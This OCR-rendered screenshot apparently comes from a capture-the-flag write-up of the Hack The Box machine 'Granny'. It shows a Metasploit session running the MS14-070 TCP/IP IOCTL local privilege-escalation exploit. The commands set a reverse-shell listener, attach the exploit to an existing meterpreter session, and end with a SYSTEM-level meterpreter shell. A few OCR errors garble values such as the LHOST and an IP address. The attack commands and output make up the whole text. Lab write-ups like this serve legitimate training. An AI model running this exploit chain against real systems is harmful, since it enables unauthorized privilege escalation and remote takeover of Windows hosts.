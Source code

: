 ![](Maszyny/Windows/Granny/Pasted%20image%2020210818140847.png)

msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set LHOST tuno
LHOST = tuno
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set LPORT 9001
LPORT → 9001
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions
Active sessions
Id
Name
Connection
Type
Information
meterpreter x86/windows NT AUTHORITY\NETWORK SERVICE @ GRANNY
1
10.10.14.12:9000 → 10.10.10.15: 1035 (1
0.10.10.15)
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > run
[*] Started reverse TCP handler on 10.10.14.12:9001
[*] Storing the shellcode in memory ...
[*] Triggering the vulnerability ...
[*] Checking privileges after exploitation ...
[+] Exploitation successful!
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.12:9001 → 10.10.10.15:1036) at 2021-08-18 14:08:32 +0200
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
